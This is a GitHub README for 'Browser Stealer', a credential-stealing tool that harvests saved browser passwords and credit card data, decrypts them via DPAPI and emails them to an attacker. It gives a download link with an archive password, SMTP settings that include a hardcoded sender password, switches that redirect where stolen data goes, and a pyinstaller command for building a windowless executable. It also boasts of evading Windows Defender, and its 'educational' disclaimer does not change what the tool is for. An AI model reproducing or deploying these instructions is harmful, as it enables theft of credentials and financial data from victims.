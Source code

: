 # Browser Stealer
Finds Internet browsers and applications that use those browsers. It detects files that hold personal information such as username and password, and credit card information. It decrypts these files using DPAPI. It transmits this information to the attacker via email.

**1) The algorithm used by the program for saved passwords is shown in the graphic below.**
![key1](https://user-images.githubusercontent.com/71177413/166139625-fd15d6ea-6355-4a80-ae83-15b6437b54e5.JPG)

**2) The algorithm used by the program for saved credit cards is shown in the graphic below.**
![key2](https://user-images.githubusercontent.com/71177413/166139633-a23d31a5-d098-440d-ba6b-ae36995777b7.JPG)


The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> Browser Stealer
  <dd>
  <dd> Browser_Stealer.rar --> zip password: "BrOWserSteaLEr2022"
  <dd> Link = https://drive.google.com/file/d/1Q2XkhU64vHzKfyxmuPh-c9U3JdoqFeyS/view?usp=sharing
</dl>

Requirements
---
Required libraries:  pywin32, pycryptodome, pyinstaller

```
pip install pywin32
pip install pycryptodome
pip install pyinstaller
```

"pyinstaller" will be used to make the code one piece executable


Settings
---
![A](https://user-images.githubusercontent.com/71177413/166140037-c624e1f9-eaf7-48dc-953b-c28ad4e80d15.JPG)

```
    SMTP_SERVER      = "smtp-mail.outlook.com"           # SMTP server for e-mail to be sent
    SMTP_PORT        = "587"                             # SMTP port for e-mail to be sent
    SENDER_ADDRESS   = "ajehdfgruewsf@outlook.com"       # Sender e-mail address
    SENDER_PASS      = "uy8mNbvx4c9agehe5uwk6wxv"        # Sender e-mail password
    RECEIVER_ADDRESS = "python.test.email@outlook.com"   # Receiver e-mail address
```

<dl>
  <dt>
  <dt> Some settings can be changed with initial parameters if desired.
  <dd>
  <dd> -smail:***          ==> sets sender e-mail address   ["SENDER_ADDRESS"]
  <dd> -spass:***          ==> sets sender e-mail password  ["SENDER_PASS"]
  <dd> -rmail:***          ==> sets receiver e-mail address ["RECEIVER_ADDRESS"]
</dl> 

<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> Browser_Stealer.exe  -smail:gungor@outlook.com -spass:123jKl789 -rmail:receiver@mail.com
  <dd>
</dl>

![5](https://user-images.githubusercontent.com/71177413/166140529-f69a38f2-59ef-4e8c-a577-2b548dc82245.JPG)


Compilation
---

```
pyinstaller --onefile --noconsole --icon=Browser_Stealer.ico Browser_Stealer.py
```

Some Images of the Working of the Program
---

**1) Depending on your mail settings, mails may fall into junk mail.**
![2](https://user-images.githubusercontent.com/71177413/166140643-3a169c8b-0693-4b39-aac1-66fd6fda4e5a.JPG)

**2) When the program runs, it sends the information to the e-mail address in its settings.**
![1](https://user-images.githubusercontent.com/71177413/166140663-3d756371-de97-4efd-8126-5d75614da434.JPG)

**3) The e-mail address can be changed by sending the parameters to the program at the beginning.**
![4](https://user-images.githubusercontent.com/71177413/166140793-c18caf24-b312-4e0a-a403-750c6f22da11.JPG)


Windows Defender
---
As of 01/05/2022, it is not caught by the Windows Defender program. Over time this will change.

Legal Warning
---
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

